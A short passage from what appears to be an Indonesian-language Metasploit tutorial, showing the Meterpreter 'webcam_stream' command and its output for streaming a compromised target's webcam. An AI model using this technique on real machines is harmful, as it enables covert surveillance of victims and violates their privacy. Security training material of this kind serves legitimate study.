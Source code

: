    ![](https://github.com/fixploit03/Belajar-Metasploit/blob/main/img/webcam%201.jpeg)

3. Atau Rekan Layar:

   ```
   webcam_stream
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > webcam_stream
   [*] Starting...
   [*] Preparing player...
   [*] Opening player at: /root/JBcoFBUJ.html
   [*] Streaming...
   ```

   Contoh hasil stream layar yang berhasil di rekam dari webcam target:

